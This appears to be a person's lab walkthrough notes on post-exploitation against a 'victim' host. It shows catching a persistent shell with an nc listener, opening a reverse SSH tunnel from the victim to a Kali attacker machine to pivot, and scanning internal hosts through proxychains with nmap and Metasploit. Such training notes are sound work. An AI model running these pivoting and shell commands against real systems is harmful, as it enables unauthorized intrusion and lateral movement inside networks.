 #Changing Targets VICTIM 2



## Introduction



Here You will find techniques PERSISTENT SHELL, PIVIOT, AND PING SWEEP.



## Section 1: CATCH PERSISTENT SHELL



### (ATTACKER)



```bash
# nc -lvp 55556
upgrade shell






## NEXT CONDUCT A PIVIOT



### (ATTACKER)



```bash
# netstat -natp
# netstat -natp | grep LISTEN



_AFTER CATCHING PERSISTENT SHELL (USE YOUR SSH PORT)
_OPEN SSH FOR LISTNER TO SET UP PROXY



```bash
#sudo systemctl status ssh.service
#sudo systemctl start ssh.service



### (VICTIM)
```bash
# ssh -N -f -R 127.0.0.1:9080 kali@192.168.122.209 -p 55555



(MAKE SURE PORT FWD RULE IS GOOD ON PFSENSE SSH PORT 22)
if it states port fowarding failed it means you alrady have ypur proxy open
(VICTIM) should be promted a password



## NEXT CONDUCT A PING SWEEP



_NOTE: YOUR DIRECTORIES MAY VARY COMPARED TO MY EXAMPLE DEPENDING HOW AND WHERE YOUR SCOPE FILE IS ON KALI



### (ATTACKER)
```bash
# LS
# CD INTERNAL
_(SHOULD SEE IP'S PING SWEEPS AND TARGETS)
# LS
# CD 192.168.1.102 (=SOC4)
# sudo proxychains nmap -iL scope -F -Pn -sT | tee fast_scan



_USE A THIRD TERMINAL
```bash
# sudo proxychains msfconsole [1:24:44]



*** continued... on Metasploit through proxy chains ***

